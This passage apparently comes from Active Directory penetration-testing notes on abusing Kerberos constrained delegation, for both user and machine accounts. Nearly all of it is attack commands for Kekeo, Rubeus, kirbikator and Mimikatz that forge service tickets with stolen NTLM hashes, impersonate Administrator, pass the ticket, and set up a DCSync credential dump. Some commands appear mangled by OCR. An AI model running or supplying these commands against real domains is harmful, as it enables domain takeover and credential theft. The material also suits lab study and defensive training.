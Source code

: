 		# Inject and use the TGS
		.\kirbikator.exe lsa .\CIFS.computer.targetDomain.local.kirbi
		ls \\dc.domain2.local\shares\
		
		
        ```
        
    - Access the CIFS Service
        
        ```powershell
        dir \\dcorp-dc.organicsecurity.local
        
        ```
        
- Method 2: User Account exploitation using Rubeus
    - Use Rubeus to directly fetch TGS for delegated service in single command
        
        ```powershell
        .\Rubeus.exe s4u /user:websvc /rc4:cc098f204c892347832947324749156f
        /impersonateuser:Administrator /msdsspn :"dcorp_mssql.organicsecurity.local" /ptt
        
        ```
        
    - Access the CIFS Service
        
        ```powershell
        dir \\dcorp-dc.organicsecurity.local
        
        ```
        

**[II] Constrained Delegation - Machine Account**

- Method 1: Machine Account exploitation using Kekeo
    - Similar to above scenario, we can use the NTLM hash of machine account to request TGT
        
        ```powershell
        kekeo tgt::ask /user:dcorp adminsrv /domain:organicsecurity.local /rc4:1fadb1b13232132323389e6f34c67
        
        ```
        
    - Use TGT received above to request for TGS. Now, here we can request TGS for service which are not listed under msds-allowedto delegateto but is running under the same service/system account
        
        ```powershell
        kekeo tgs::s4u /tgt:TGT_dcorp-adminsrv$ @organicsecurity.local_krbtgt~organicsecurity.local@organicsecurity.local.kirbi /user:Administrator@organicsecurity.local /service:time/dcorp-dc.organicsecurity.local | ldap dcorp-dc.organicsecurity.local
        
        ```
        
    - Inject the TGS ticket and perform DCSync attack
        
        ```powershell
		#Inject the ticket

		Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'

		
